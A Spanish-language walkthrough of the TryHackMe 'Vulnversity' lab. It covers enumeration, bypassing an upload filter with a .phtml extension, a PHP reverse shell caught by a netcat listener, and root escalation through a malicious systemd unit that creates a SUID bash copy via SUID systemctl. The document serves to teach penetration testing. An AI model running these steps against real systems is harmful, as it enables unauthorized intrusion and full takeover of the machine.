






Vulnversity
Plataforma: TryHackMe
Sistema Operativo: Linux
Dificultad: Easy
IP: 10.10.225.1
Autor writeup: juanma-cc
Perfil de TryHackMe: juanmacc
Fecha: 25-05-2025
📖 Resumen rápido
Esta máquina se explota mediante una vulnerabilidad de subida de archivos mal configurada
en una página web interna, permitiendo la ejecución remota de código a través de una reverse shell.
La escalada de privilegios se logra aprovechando un binario con permisos SUID para obtener acceso root.
🔍 Enumeración
- Comenzamos la enumeración de la máquina con
nmap
nmap -sC -sV -p- 10.10.225.1
Host is up, received conn-refused (0.049s latency).
Scanned at 2025-05-25 21:55:35 CEST for 23s
Not shown: 994 closed tcp ports (conn-refused)
PORT STATE SERVICE REASON VERSION
21/tcp open ftp syn-ack vsftpd 3.0.3
22/tcp open ssh syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp open netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open http-proxy syn-ack Squid http proxy 3.5.12
3333/tcp open http syn-ack Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
✅ El puerto más interesante es el 3333, donde corre un servidor web Apache.
Descubrimiento Web
Accedemos al sitio web en:
http://10.10.225.1:3333
No encontramos contenido relevante directamente, por lo que procedemos a enumerar directorios ocultos.
Enumeración de subdominios
Utilizaremos gobuster para descubrir nuevos subdominios.
gobuster dir -u http://10.10.225.1:3333 -w /ruta/wordlist.txt

Tras el escaneo, vemos un subdominio interesante: internal Al acceder nos encontramos con esta página, que nos permite subir archivos.

💥 Explotación
Al intentar subir cualquier archivo, por ejemplo en .php nos encontramos que salta un error.
⛔ [ERROR] ⛔
No acepta archivos con extensión .php
⛔ [ERROR] ⛔
Para ver que tipo de archivos acepta, podemos crear una wordlist con extensiones comunes de .php como por ejemplo:
- .php
- .php3
- .php4
- .php5
- .phtml
ℹ️ También podemos utilizar una wordlist con diferentes extensiones.
Capturamos el intento de subida de archivo con el proxu de Burpsuite y lo mandamos a intruder.
En filename="test.php" , modificamos el .php presionando el botón de “Add &”.
Esto hará que modifique la extensión con nuestro payload.

Solo nos queda observar las diferentes requests para ver la respuesta.
Si filtramos por Success vemos que una petición ha llegado correctamente.
👌👌👌 Lo tenemos! 👌👌👌
Admite extensiones .phtml

Subimos una reverse shell en .php pero modificando la extensión a .phtml
ℹ️ Nuestra querida reverse de PentestMonkey es suficiente 😈
Escuchamos con nc -lvnp 4444

Ejecutamos la reverse shell a través de la siguiente dirección:
http://10.10.225.1:3333/internal/uploads/reverse.phtml
Ya podemos movernos libremente para encontrar al user 😏
Vamos a /home/ y ya tendremos la flag de user

🦸 Escalada de Privilegios
Buscamos todos los archivos con permisos SUID
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
Tras revisar la lista y buscar algo de información, este es el análisis y la explicación:
🔍 ¿Qué es un binario SUID?
Un binario con el bit SUID activado se ejecuta con los privilegios del dueño del archivo , normalmente root , aunque lo ejecute un usuario normal.
Esto puede ser peligroso si:
- El binario permite ejecutar comandos o leer/abrir archivos arbitrarios.
- Se puede explotar para elevar privilegios.
Lista de archivos interesantes que nos encontramos:
- /bin/su
- /bin/ntfs-3g
- /bin/mount
- /bin/ping6
- /bin/umount
- /bin/systemctl
- /bin/ping
- /bin/fusermount
- /sbin/mount.cifs
✅ Binarios comunes y seguros (NO VULNERABLES):
| Ruta | Descripción | ¿Peligroso? |
|---|---|---|
/bin/su |
Cambio de usuario | No. Es seguro, no hay exploits conocidos. |
/bin/pingy/bin/ping6 |
Herramienta de red | No. Necesita SUID para funcionar, pero no permite explotación. |
/bin/mounty/bin/umount |
Montar/desmontar dispositivos | Requiere configuración específica, difícil de explotar. |
/bin/fusermount |
Usado por FUSE | Seguro en entornos normales. |
/sbin/mount.cifs |
Montar sistemas de archivos CIFS | Similar a mount, no explotable fácilmente. |
⚠️ Potencialmente vulnerable:
🤯 /bin/systemctl
Este sí es interesante y muy común encontrarlo en máquinas de TryHackMe/CyberSec labs.
systemctles una herramienta que controla el sistema init (systemd) y requiere privilegios root .- Si puedes ejecutar
systemctlcon SUID, puedes intentar crear un servicio malicioso y ejecutarlo como root.
Con lo cual, podemos crear un servicio falso para habilitarlo y obtener una shell de root.
🧠 ¿Cómo explotar /bin/systemctl con SUID?
Si puedes ejecutar systemctl como root sin ser root, podrías crear un servicio que lance una shell o te dé acceso root.
Pasos básicos:
- Crear un servicio malicioso en tu directorio temporal:
cd /tmp
cat > rootshell.service << EOF
[Service]
Type=oneshot
ExecStart=/bin/sh -c "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash"
EOF
- Ejecutar el servicio con systemctl (como root) :
/bin/systemctl link /tmp/rootshell.service
/bin/systemctl start /tmp/rootshell.service
- Ejecutar la bash con privilegios SUID :
/tmp/rootbash -p
Al ingresar el comando, obtenemos una shell de root.
Solo falta navegar al directorio para encontrar la flag en root.txt
🎯 Conclusión
La máquina Vulnversity es una excelente introducción a:
- Enumeración web básica
- ByPass de filtros de subida de archivos
- Uso de SUID para escalada de privilegios